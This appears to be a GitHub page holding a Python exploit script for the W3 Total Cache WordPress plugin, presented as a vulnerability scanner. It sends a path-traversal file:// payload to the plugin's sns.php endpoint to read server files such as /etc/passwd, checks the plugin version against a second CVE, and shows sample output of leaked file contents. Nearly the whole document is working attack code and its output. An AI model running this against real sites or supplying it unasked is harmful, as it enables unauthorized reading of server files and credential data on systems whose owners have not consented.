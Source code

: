 # W3TotalChache
Testing for CVE-2019-6715 (Arbitrary File Read)/ CVE-2024-12365 (SSRF/Info Disclosure)

usage:
python3 w3tc_scanner.py -u https://example.com -f /etc/passwd -d 3

import requests
import argparse
from urllib.parse import urlparse

def check_w3tc_version(url):
    try:
        response = requests.get(url, timeout=10)
        headers = response.headers
        
        # Check X-Powered-By header
        if 'X-Powered-By' in headers and 'W3 Total Cache' in headers['X-Powered-By']:
            version = headers['X-Powered-By'].split('/')[-1]
            return version
        
        # Check HTML content for version
        if 'W3 Total Cache' in response.text:
            version = response.text.split('W3 Total Cache/')[-1].split()[0][:5]
            return version
            
        return None
    except Exception as e:
        print(f"Version check error: {str(e)}")
        return None

def test_file_read(target_url, file_path="/etc/passwd", depth=2):
    try:
        parsed = urlparse(target_url)
        base_url = f"{parsed.scheme}://{parsed.netloc}"
        traversal = '../' * depth
        exploit_url = f"{base_url}/wp-content/plugins/w3-total-cache/pub/sns.php"
        
        payload = {
            "Type": "SubscriptionConfirmation",
            "Message": "",
            "SubscribeURL": f"file:///{traversal}{file_path}"
        }
        
        headers = {'Content-Type': 'application/json'}
        response = requests.put(exploit_url, json=payload, headers=headers, timeout=15)
        
        if response.status_code == 200 and len(response.text) > 0:
            return True, response.text
        return False, None
        
    except Exception as e:
        print(f"File read test error: {str(e)}")
        return False, None

def main():
    parser = argparse.ArgumentParser(description='W3 Total Cache Vulnerability Scanner')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-f', '--file', default="/etc/passwd", 
                      help='File to read (default: /etc/passwd)')
    parser.add_argument('-d', '--depth', type=int, default=2,
                      help='Traversal depth (default: 2)')
    
    args = parser.parse_args()
    
    print(f"[*] Scanning {args.url}")
    
    # Version check
    version = check_w3tc_version(args.url)
    if version:
        print(f"[!] Detected W3 Total Cache version: {version}")
        if version <= "2.8.1":
            print("[!] Vulnerable to CVE-2024-12365 (SSRF/Info Disclosure)")
    else:
        print("[!] W3 Total Cache not detected through headers/content")
    
    # File read vulnerability test
    print("\n[*] Testing for CVE-2019-6715 (Arbitrary File Read)...")
    vulnerable, content = test_file_read(args.url, args.file, args.depth)
    
    if vulnerable:
        print(f"[!] Vulnerable to directory traversal!\nFile content:\n{content[:500]}...")
    else:
        print("[+] No immediate file read vulnerability detected")

if __name__ == "__main__":
    main()

Output:
[*] Scanning https://example.com
[!] Detected W3 Total Cache version: 2.8.0
[!] Vulnerable to CVE-2024-12365 (SSRF/Info Disclosure)

[*] Testing for CVE-2019-6715 (Arbitrary File Read)...
[!] Vulnerable to directory traversal!
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
